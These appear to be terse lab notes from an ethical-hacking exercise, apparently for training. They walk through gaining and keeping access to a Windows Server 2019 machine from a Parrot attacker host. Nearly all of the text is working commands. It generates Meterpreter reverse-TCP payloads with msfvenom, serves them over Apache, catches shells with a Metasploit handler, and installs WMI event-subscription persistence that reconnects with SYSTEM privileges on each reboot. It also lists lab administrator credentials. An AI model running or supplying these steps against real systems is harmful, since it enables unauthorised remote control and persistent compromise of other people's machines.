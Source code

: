 Note: In this task we will create two payloads, one to gain access to the system and another for WMI event subscription.

	[parrot]
	sudo su
	cd -> root dir
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Payload.exe
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/wmi.exe
share both the payloads follow same steps mentioned earlier

	cp /home/attacker/Desktop/Payload.exe /var/www/html/share/
	cp /home/attacker/Desktop/wmi.exe /var/www/html/share/
	service apache2 start
	
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.1.13
	set lport 444
	run
	
	[windows 2019]
	Administrator/Pa$$w0rd
	http://10.10.1.13/share
	download Payload.exe & wmi.exe
	Run payload.exe

	[parrot]
	meterpreter session has opened
	getuid
	upload /home/attacker/Wmi-Persistence-master C:\\Users\\Administrator\\Downloads
	load powershell
	powershell_shell
	PS>Import-Module ./WMI-Persistence.ps1
	Install-Persistence -Trigger Startup -Payload “C:\Users\Administrator\Downloads\wmi.exe”
Note: It will take approximately 5 minutes for the script to run.

	Open new terminal with root privileges
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.1.13
	set lport 444
	exploit
	
	Navigate to the previous terminal window and press ctr+c and type y and press Enter, to exit powershell.

	[Windows 2019]
	Restart
	
	[parrot]
	Navigate to the second terminal and we can see that the meterpreter session is opened. (take approximately 5-10 minutes for the session to open)
	getuid
We can see that we system privileges and persistence on the target machine, when ever the machine is restarted a session is created.
